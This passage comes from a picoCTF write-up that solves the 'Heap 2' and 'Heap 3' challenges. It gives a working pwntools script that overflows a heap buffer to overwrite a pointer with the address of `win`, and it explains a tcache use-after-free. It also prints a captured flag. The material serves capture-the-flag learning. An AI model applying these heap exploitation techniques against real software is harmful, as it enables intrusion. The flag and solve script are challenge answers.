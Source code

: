 After printing the heap we can see the input and the `x` variable are 32 bytes apart.

So all we need to do is write 32 bytes and then the address of `win`.

Final solve script:

```py
from pwn import ELF, p64, process, context, ROP, gdb, remote

context.binary = binary = ELF("chal")
p = process()
p = remote("mimas.picoctf.net", 63140)

p.sendline(b"2")
p.sendline(b"a" * 32 + p64(binary.symbols.win))
p.sendline(b"4")

p.interactive()
```

Running this gets the flag:

``🚩:`` **picoCTF{and_down_the_road_we_go_dde41590}**

### Heap 3 [300 PTS]

This challenge uses a Use After Free Vulnerability.

Basically after you call `free` on a chunk (for certain sizes) it gets put into the `tcache`.

The `tcache` shows what chunks are free and if `malloc` is called with a similar amount of bytes as the size of the free chunk in the tchache, that chunk in the `tcache` is returned to `malloc`.

However, the pointer that was pointing to the original chunk now points to the same chunk, but that chunk is being used for something else now.

In the program we are able to allocate a chunk and then write to that chunk. 

If we first free the original chunk, and then reallocate a chunk of that same size and write `pico` to it, we will get the flag, since `x` still points to the same place.

The win condition to get the flag is here:
```c
if(!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

}
```
